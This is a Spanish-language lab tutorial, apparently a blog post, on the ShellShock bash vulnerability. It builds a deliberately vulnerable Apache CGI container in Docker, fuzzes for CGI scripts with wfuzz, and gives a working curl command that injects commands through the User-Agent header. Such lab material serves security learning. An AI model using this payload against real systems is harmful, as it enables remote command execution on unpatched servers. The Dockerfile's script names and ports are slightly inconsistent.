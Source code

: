```yaml
---
title: Laboratorio - ShellShock
author: cotes
date: 2023-06-25 17:51:00 +0800
categories: [Laboratorio, 'ShellShock']
tags: ['ShellShock', OWASP]
math: true
mermaid: true
image:
  path: /assets/images/Laboratorios/shellshock/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Open Redirect Logo
---
```


Esta vulnerabilidad afecta a bash antiguas y se aprovecha del funcionamiento de CGI. CGI permite ejecutar scripts externos, usualmente escritos en bash, cmd, perl y cgi, permitiendo a un atacante ejecutar comandos modificando la cabecera User-Agent en una petición enviada al servidor

* **Laboratorio** 🔬

1. Crearemos un archivo **Dockerfile** con el siguiente contenido

```dockerfile
# Base image
FROM ubuntu:12.04.5
# Actualizar paquetes y herramientas
RUN apt-get update && apt-get upgrade -y
# Instalar Apache y configurarlo para ejecutar CGI
RUN apt-get install -y apache2 && \
    a2enmod cgi
# Crear un archivo CGI vulnerable a Shellshock
RUN echo '#!/bin/bash\necho "Content-type: text/html"\necho\necho "<html><body><h2>Shellshock Vulnerable CGI</h2><pre>"\necho\necho "Vulnerable to Shellshock"\necho\necho "</pre></body></html>"' > /usr/lib/cgi-bin/shellshock.cgi && \
    chmod +x /usr/lib/cgi-bin/new.cgi
# Exponer el puerto 80
EXPOSE 80
# Iniciar el servidor Apache al ejecutar el contenedor
CMD ["apache2ctl", "-D", "FOREGROUND"]
```

a. Creamos un imagen **docker build -t <Nombre Imagen> .**

b. Desplegamos el contenedor **docker run -d -p 80:80 <Nombre Imagen>**

* Veremos que ya tenemos un servicio **Apache** ejecutandose en nuestra máquina host en el puerto 8080

![](/assets/images/Laboratorios/shellshock/apache.png)


2. El directorio que aloja los **scripts que se van a ejecutar** es **`/cgi-bin/`**, si accedemos a el veremos un código de estado **`403 Forbidden`**, esto nos indica que el **directorio existe** pero no tenemos capacidad de listar su contenido, sin embargo, si conocemos el nombre de un script podemos acceder y ejecutarlo.

3. Como no conocemos el nombre de un script, lo que haremos es **fuzzear** por nombres y posibles extensiones (Esto solo por practicar, ya que en el archivo **Dockerfile** está el nombre del **script**)

```bash
wfuzz -c -t 100 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -z list,cgi-sh-pl http://localhost/cgi-bi
n/FUZZ.FUZ2Z

000000055:   500        16 L     77 W       607 Ch      "new - cgi"
```
> Encontramos un **script** con nombre **`new.cgi`**

* **-c:** Formato Colorizado. 🎨
* **-t <N>:** N Hilos a usar. 🧵
* **--hc=4040:** Oculatamos las respuestas con código de estado **404 Not Found**. ❌
* **-w <Diccionario>:** Indicamos un diccionario para que fuzee.
* **-z list,cgi-sh-pl:** Indicamos las extensiones por las cuales fuzeará.
* **http://localhost:8080/cgi-bin/FUZZ.FUZ2Z**: FUZZ -> Nombres del diccionario, FUZ2Z -> Cada extensión indicada.


4. Ahora ya podemos llevar a cabo el ataque **Shellshock**, sacamos el **payload** de este [post](https://blog.cloudflare.com/inside-shellshock/), usaremos **cURL**

* **Comando:** `curl -s -X GET "http://localhost/cgi-bin/new.cgi" -H "User-Agent:  () { :; }; echo;  /usr/bin/whoami"`

![](/assets/images/Laboratorios/shellshock/whoami.png)

* **Recomendaciones**
  + [x] Esta vulnerabilidad se da únicamente en versiones muy antiguas de bash.
  + [x] Si no vemos el output del comando, debemos añadir uno o dos **echo;**.
  + [x] Si queremos ejecutar cualquier comando es recomendable hacerlo con su ruta absoluta.